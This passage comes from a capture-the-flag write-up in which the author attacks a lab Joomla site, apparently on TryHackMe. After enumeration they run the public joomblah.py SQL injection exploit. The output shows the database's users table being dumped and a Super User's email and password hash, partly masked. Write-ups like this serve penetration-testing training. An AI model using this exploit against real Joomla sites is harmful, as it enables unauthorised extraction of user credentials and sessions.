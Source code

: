 We done most of the enum, let check out some of the page we found by gobuster. Only the admin page return.

Joomla Admin Page:

![joomla-admin-page](joomla-admin-page.png)

Since we found some exploit available from searchsploit. Let try it out.

```bash
python joomblah.py http://10.10.183.59/


    .---.    .-'''-.        .-'''-.
    |   |   '   _    \     '   _    \                            .---.
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.
|____.'                                                                `--'  `" '---'   '---'

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', '----', '----@tryhackme.com', '--------------------Mw.V.d3p12--------', '', '']
  -  Extracting sessions from fb9j5_session
```
